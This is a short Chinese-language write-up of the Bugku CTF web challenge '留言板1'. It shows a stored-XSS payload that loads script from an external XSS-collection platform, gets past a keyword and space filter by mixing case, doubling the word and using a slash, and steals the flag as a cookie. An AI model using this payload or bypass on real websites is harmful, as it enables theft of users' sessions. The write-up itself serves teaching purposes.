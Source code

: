 ```yaml
---
title: bugku-WEB-留言板1
date: 2023-01-01 16:00 +0800
categories: [CTF,WEB]
tags: [bugku,web]
img_path: /assets/images/1.assets
---
```




在xss.pt 注册一个账号，配置XSS

![img](clip_image002.jpg)

![img](clip_image004.jpg)

我们复制srcipt这一条，

<sCRiPt sRC=//xx.xx/xxxx></sCrIpT>

我们会发现过滤了script和空格，进行其他代码尝试，会发现 ( ) 括号也进行了过滤

我们有**大小写+双写**可以过滤srcipt，空格使用**反斜杠**进行绕过

```html
<sCRisCRiPtPt/sRC=//xx.xx/xxxx></sCrsCrIpTIpT>
```

测试情况

![img](clip_image006.jpg)

 

![img](clip_image008.jpg)

flag=flag%7B3f82f0d1288d080024d1ee51d4499228%7D;

flag{3f82f0d1288d080024d1ee51d4499228}